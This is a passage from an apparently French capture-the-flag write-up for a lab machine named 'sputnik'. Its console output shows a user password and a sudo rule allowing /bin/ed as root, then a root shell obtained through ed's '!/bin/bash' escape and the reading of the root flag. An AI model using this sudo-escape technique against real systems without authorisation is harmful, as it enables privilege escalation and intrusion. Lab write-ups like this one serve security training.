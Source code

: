 ```console
splunk@sputnik:/$ sudo -l
sudo -l
[sudo] password for splunk: test

Sorry, try again.
[sudo] password for splunk: ameer_says_thank_you_and_good_job

Matching Defaults entries for splunk on sputnik:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User splunk may run the following commands on sputnik:
    (root) /bin/ed

splunk@sputnik:/$ sudo /bin/ed
sudo /bin/ed
!/bin/bash
!/bin/bash
root@sputnik:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Merci beaucoup à [Ameer Pornillos](https://ethicalhackers.club/about/) pour avoir créé ce challenge fort symputnik !

```console
root@sputnik:/# cat /root/flag.txt
cat /root/flag.txt
 _________________________________________
/ Congratulations!                        \
|                                         |
| You did it!                             |
|                                         |
| Thank you for trying out this challenge |
| and hope that you learn a thing or two. |
|                                         |
| Check the flag below.                   |
|                                         |
| -----REDACTED-----                      |
|                                         |
| Hope you enjoy solving this challenge.  |
| :D                                      |
|                                         |
\ - ameer (from hackstreetboys)           /
 -----------------------------------------
--snip--
```
